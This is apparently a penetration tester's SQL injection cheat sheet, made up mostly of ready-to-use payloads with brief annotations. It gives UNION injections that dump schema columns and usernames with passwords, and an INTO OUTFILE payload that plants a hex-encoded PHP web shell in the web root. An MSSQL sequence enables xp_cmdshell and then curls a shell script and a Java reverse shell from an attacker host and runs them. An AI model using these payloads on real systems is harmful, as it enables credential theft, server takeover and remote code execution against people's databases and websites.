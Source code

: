 `1 union select 1, column_name, 3, 4 fomr information_schema.columns`

`' UNION SELECT user(), 'asd';-- -`

One column available get username and password **_or group_concat maybe?_**

`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

### Uploading Shell SQLi

-  `<value>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -`
   -  `INTO OUTFILE '/var/www/html/shell.php` **_output file to shell.php /var/www/html most common default location_**
   -  `0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E` Hex of `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>` **_or hex of the actual php reverse shell from pentest monkey_**

### sqli RCE

- MSsql
  - `xp_cmdshell` takes a string and passes it to a cmd shell for execution **_Disabled by default_**
  - If DB user has appropriate permissions we can enable xp_cmdshell using
```bash
EXECUTE sp_configure 'show advanced options', 1;  
GO
RECONFIGURE;  
GO 
EXECUTE sp_configure 'xp_cmdshell', 1;  
GO 
RECONFIGURE;  
GO
```

- MSSQL
    - `xp_cmdshell`
    - If `xp_cmdshell` is enabled call it using `EXECUTE xp_cmdshell 'command to run here';` **_Linux does not support several functions_**
    - If DB user has appropriate permissions we can enable xp_cmdshell using the ff:
      - `EXECUTE sp_configure 'xp_cmdshell',1; RECONFIGURE;` **_enables xp_cmdshell_**
      - then `EXEC xp_cmdshell 'curl http://192.168.48.2:8000/a.sh';` 
      - `EXEC xp_cmdshell 'bash a.sh'; `

In order of usage

- `EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;`
- `EXECUTE sp_configure 'xp_cmdshell',1; RECONFIGURE;`
- `EXEC xp_cmdshell 'curl http://192.168.48.2:8000/itworked';` confirm RCE using this
- `EXEC+xp_cmdshell+'curl+http://192.168.48.2:8000/RevShell.java+--output+%temp%/RevShell.java'; ` for windows
- `EXEC xp_cmdshell 'java %temp%/RevShell.java';` for windows dont forget to url encode the `%`

```bash
- To allow advance options to be changed.

EXECUTE sp_configure 'show advanced options', 1;  
GO
- To update the currently configured value for advance options.

RECONFIGURE;  
GO 
- To enable xp_cmdshell

EXECUTE sp_configure 'xp_cmdshell', 1;  
GO 
- To update currently config value for xp_cmdshell

RECONFIGURE;  
```